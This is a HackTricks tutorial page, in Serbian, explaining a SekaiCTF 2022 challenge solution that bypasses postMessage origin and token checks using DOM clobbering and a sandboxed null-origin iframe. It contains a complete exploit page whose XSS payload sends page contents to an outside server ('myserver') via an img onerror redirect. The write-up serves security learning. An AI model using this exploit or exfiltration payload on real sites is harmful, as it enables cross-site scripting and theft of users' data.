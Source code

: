 # Bypassing SOP with Iframes - 2

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **kompaniji za kibernetičku bezbednost**? Želite li da vidite svoju **kompaniju reklamiranu na HackTricks**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Iframe-ovi u SOP-2

U [**rešenju**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc/solution) za ovaj [**izazov**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc)**,** [**@Strellic\_**](https://twitter.com/Strellic\_) predlaže sličnu metodu kao u prethodnom odeljku. Hajde da proverimo.

U ovom izazovu napadaču je potrebno **zaobići** ovo:

```javascript
if (e.source == window.calc.contentWindow && e.data.token == window.token) {
```

Ako to uradi, može poslati **postmessage** sa HTML sadržajem koji će biti upisan na stranici sa **`innerHTML`** bez sanitizacije (**XSS**).

Način za zaobilaženje **prve provere** je da se **`window.calc.contentWindow`** postavi na **`undefined`** i **`e.source`** na **`null`**:

* **`window.calc.contentWindow`** zapravo predstavlja **`document.getElementById("calc")`**. Možete zameniti **`document.getElementById`** sa **`<img name=getElementById />`** (napomena: Sanitizer API -[ovde](https://wicg.github.io/sanitizer-api/#dom-clobbering)- nije konfigurisan da zaštiti od napada na DOM zamenu u svom podrazumevanom stanju).
* Zato možete zameniti **`document.getElementById("calc")`** sa **`<img name=getElementById /><div id=calc></div>`**. Tada će **`window.calc`** biti **`undefined`**.
* Sada nam je potrebno da **`e.source`** bude **`undefined`** ili **`null`** (jer se koristi `==` umesto `===`, **`null == undefined`** je **`True`**). Ovo je "jednostavno" postići. Ako kreirate **iframe** i **pošaljete** **postMessage** iz njega i odmah ga **uklonite**, **`e.origin`** će biti **`null`**. Pogledajte sledeći kod.

```javascript
let iframe = document.createElement('iframe');
document.body.appendChild(iframe);
window.target = window.open("http://localhost:8080/");
await new Promise(r => setTimeout(r, 2000)); // wait for page to load
iframe.contentWindow.eval(`window.parent.target.postMessage("A", "*")`);
document.body.removeChild(iframe); //e.origin === null
```

Da biste zaobišli **drugu provjeru** u vezi tokena, pošaljite **`token`** sa vrijednošću `null` i postavite vrijednost **`window.token`** na **`undefined`**:

* Slanje `tokena` u postMessage sa vrijednošću `null` je jednostavno.
* **`window.token`** se poziva u funkciji **`getCookie`** koja koristi **`document.cookie`**. Napomena da svaki pristup **`document.cookie`** na stranicama sa **`null`** porijeklom izaziva **grešku**. To će rezultirati da **`window.token`** ima vrijednost **`undefined`**.

Konačno rješenje od [**@terjanq**](https://twitter.com/terjanq) je [**sljedeće**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-calc-html):

```html
<html>
<body>
<script>
// Abuse "expr" param to cause a HTML injection and
// clobber document.getElementById and make window.calc.contentWindow undefined
open('https://obligatory-calc.ctf.sekai.team/?expr="<form name=getElementById id=calc>"');

function start(){
var ifr = document.createElement('iframe');
// Create a sandboxed iframe, as sandboxed iframes will have origin null
// this null origin will document.cookie trigger an error and window.token will be undefined
ifr.sandbox = 'allow-scripts allow-popups';
ifr.srcdoc = `<script>(${hack})()<\/script>`

document.body.appendChild(ifr);

function hack(){
var win = open('https://obligatory-calc.ctf.sekai.team');
setTimeout(()=>{
parent.postMessage('remove', '*');
// this bypasses the check if (e.source == window.calc.contentWindow && e.data.token == window.token), because
// token=null equals to undefined and e.source will be null so null == undefined
win.postMessage({token:null, result:"<img src onerror='location=`https://myserver/?t=${escape(window.results.innerHTML)}`'>"}, '*');
},1000);
}

// this removes the iframe so e.source becomes null in postMessage event.
onmessage = e=> {if(e.data == 'remove') document.body.innerHTML = ''; }
}
setTimeout(start, 1000);
</script>
</body>
</html>
```

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite svoju **kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

